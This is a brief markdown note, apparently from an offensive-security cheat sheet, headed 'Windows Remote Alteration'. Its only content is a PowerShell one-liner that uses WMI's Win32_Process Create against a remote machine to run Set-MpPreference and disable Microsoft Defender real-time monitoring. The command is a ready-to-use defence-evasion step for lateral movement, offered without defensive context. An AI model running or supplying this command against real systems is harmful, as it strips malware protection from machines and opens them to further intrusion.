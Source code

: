 # Windows Remote Alteration  

## Powershell Remote Alteration

### Disable Defender Remotely using WMI

```Powershell
Invoke-WmiMethod -ComputerName 10.0.1.2 -Class Win32_Process -Name Create -ArgumentList "powershell.exe -C `Set-MpPreference -DisableRealtimeMonitoring $true`"
```